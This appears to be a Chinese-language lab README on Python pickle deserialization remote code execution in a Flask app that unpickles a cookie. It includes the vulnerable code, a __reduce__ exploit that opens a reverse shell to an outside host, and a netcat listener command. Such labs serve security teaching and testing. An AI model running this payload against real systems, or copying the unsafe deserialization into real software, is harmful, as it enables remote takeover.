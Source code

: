 # Python Unpickle 反序列化远程代码执行漏洞

Python的pickle模块是一个流行的序列化/反序列化工具，可以将Python对象转换为字节流，反之亦然。然而，当使用pickle反序列化不受信任的数据时，可能导致任意代码执行。

当应用程序在没有适当验证的情况下使用pickle模块反序列化用户可控数据时，就会出现此漏洞。攻击者可以构造恶意序列化对象，在反序列化时在目标系统上执行任意命令。

参考链接：

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html
- https://docs.python.org/3/library/pickle.html#pickle.loads
- https://intoli.com/blog/dangerous-pickles/

## 环境搭建

执行以下命令启动存在漏洞的Flask应用：

```
docker compose build
docker compose up -d
```

环境启动后，可以在浏览器中访问`http://your-ip:8000`。页面将显示`Hello {username}!`，其中username是从'user' cookie中获取的。应用程序对此cookie执行base64解码和反序列化以提取"username"变量。如果没有找到有效的cookie，则默认为"Guest"。

app.py中的漏洞代码如下：
```python
@app.route("/")
def index():
    try:
        user = base64.b64decode(request.cookies.get('user'))
        user = pickle.loads(user)
        username = user["username"]
    except:
        username = "Guest"

    return "Hello %s" % username
```

## 漏洞复现

要利用此漏洞，我们需要创建一个恶意的pickle对象，该对象在反序列化时将执行任意命令。该利用使用Python的`__reduce__`方法来指定对象被反序列化时要调用的函数。

提供的利用脚本(exp.py)创建了一个恶意pickle对象，该对象建立与攻击者机器的反向shell连接：

```python
class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.18.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))
```

要执行此利用，首先在您的机器上设置netcat监听器以接收反向shell：

```
nc -lvp 80
```

然后运行利用脚本，将恶意cookie发送到存在漏洞的应用程序：

```
python3 exp.py
```

当服务器反序列化恶意pickle对象时，它将执行命令并建立与您机器的反向shell连接：

![反向Shell演示](1.png)
